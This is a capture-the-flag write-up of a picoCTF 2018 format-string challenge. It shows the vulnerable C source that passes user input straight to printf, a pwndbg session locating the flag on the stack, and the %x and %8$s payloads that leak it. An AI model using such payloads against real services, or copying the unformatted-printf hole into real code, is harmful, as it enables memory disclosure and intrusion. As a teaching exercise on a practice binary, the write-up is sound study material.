

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Lets take a look at the source

### echo.c

Not much other than some variable declarations going on in the beginning

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  char flag[64];
  char *flag_ptr = flag;
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  memset(buf, 0, sizeof(flag));
  memset(buf, 0, sizeof(buf));

  puts("Time to learn about Format Strings!");
  puts("We will evaluate any format string you give us with printf().");
  puts("See if you can get the flag!");
  
  FILE *file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  
  fgets(flag, sizeof(flag), file);
```

Here is our vulnerability. A printf function with no format specified which means we can take advantage and use things like %x (to print stack addresses) %s (to print string pointers on the stack) or even %n (to write to the stack)
```c
  while(1) {
    printf("> ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
  }  
  return 0;
}
```

Based on where the flag is stored in the binary we should be able to find the stack position for the flag in gdb then print it off using something like %stack_position_num$s. This will print the string from the address in the nth position on the stack.

## Strategy

1. Load gdb and find the flags position on the stack using things like x/100s to print strings in the entire stack
2. Run the binary with %n$s where n in the position of the flag we found in step one

After loading gdb and setting a breakpoint at the printf function that prints our input lets search for strings. After locating our flag lets send an input of a bunch of %x's which will print out a bunch of stack addresses. We can see our flags address is the 8th position. So we should be able to use %8$s to print the flag. See gdb snapshot below for clarity

```bash
pwndbg> 
0xffffd2a4:	""
0xffffd2a5:	""
0xffffd2a6:	""
0xffffd2a7:	""
0xffffd2a8:	""
0xffffd2a9:	""
0xffffd2aa:	""
0xffffd2ab:	""
0xffffd2ac:	"Ima Flag\n"
0xffffd2b6:	"\b"
0xffffd2b8:	"9{\340\367\210\065\373", <incomplete sequence \367>
0xffffd2c1:	""
0xffffd2c2:	"\373", <incomplete sequence \367>
0xffffd2c5:	""
0xffffd2c6:	"\373", <incomplete sequence \367>
0xffffd2c9:	""
0xffffd2ca:	""
0xffffd2cb:	""
0xffffd2cc:	"{|\340\367\374\003\373\367\244\323\377\377\254\323\377\377\253\207\004\b\001"
0xffffd2e2:	""
0xffffd2e3:	""
0xffffd2e4:	"\244\323\377\377\254\323\377\377"
0xffffd2ed:	")\213j E\376\367\020\323\377\377"
0xffffd2f9:	""
pwndbg> c
Continuing.
40
> %x %x %x %x %x %x %x %x

Breakpoint 2, 0x0804874f in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS ]──────────────────────────────────
 EAX  0xffffd26c ◂— '%x %x %x %x %x %x %x %x\n'
 EBX  0x0
 ECX  0xf7fb189c ◂— 0x0
 EDX  0xffffd26c ◂— '%x %x %x %x %x %x %x %x\n'
 EDI  0xf7fb0000 ◂— 0x1d9d6c
 ESI  0xf7fb0000 ◂— 0x1d9d6c
 EBP  0xffffd2f8 ◂— 0x0
 ESP  0xffffd240 —▸ 0xffffd26c ◂— '%x %x %x %x %x %x %x %x\n'
 EIP  0x804874f (main+340) —▸ 0xfffcfce8 ◂— 0x0
───────────────────────────────────[ DISASM ]───────────────────────────────────
   0x804873d <main+322>    call   fgets@plt <0x8048460>
 
   0x8048742 <main+327>    add    esp, 0x10
   0x8048745 <main+330>    sub    esp, 0xc
   0x8048748 <main+333>    lea    eax, [ebp - 0x8c]
   0x804874e <main+339>    push   eax
 ► 0x804874f <main+340>    call   printf@plt <0x8048450>
        format: 0xffffd26c ◂— '%x %x %x %x %x %x %x %x\n'
        vararg: 0x40
 
   0x8048754 <main+345>    add    esp, 0x10
   0x8048757 <main+348>    jmp    main+288 <0x804871b>
 
   0x8048759               nop    
   0x804875b               nop    
   0x804875d               nop    
───────────────────────────────────[ STACK ]────────────────────────────────────
00:0000│ esp  0xffffd240 —▸ 0xffffd26c ◂— '%x %x %x %x %x %x %x %x\n'
01:0004│      0xffffd244 ◂— 0x40 /* '@' */
02:0008│      0xffffd248 —▸ 0xf7fb05c0 (_IO_2_1_stdin_) ◂— 0xfbad2288
03:000c│      0xffffd24c —▸ 0x8048647 (main+76) ◂— mov    dword ptr [ebp - 0x94], eax
04:0010│      0xffffd250 ◂— 0x0
05:0014│      0xffffd254 —▸ 0xf7fde7fe ◂— add    esp, 0x30
06:0018│      0xffffd258 —▸ 0x8048248 ◂— add    byte ptr gs:[eax], al /* 'e' */
07:001c│      0xffffd25c —▸ 0xffffd3a4 —▸ 0xffffd527 ◂— '/root/ctf_writeups/pico2018/binary/echooo/echo'
─────────────────────────────────[ BACKTRACE ]──────────────────────────────────
 ► f 0  804874f main+340
   f 1 f7df0b41 __libc_start_main+241
Breakpoint *0x0804874f
pwndbg> c
Continuing.
40 f7fb05c0 8048647 0 f7fde7fe 8048248 ffffd3a4 ffffd2ac
> 
```

nc into the server and input %8$s for the flag

<details>
	<summary>Flag</summary>


</details>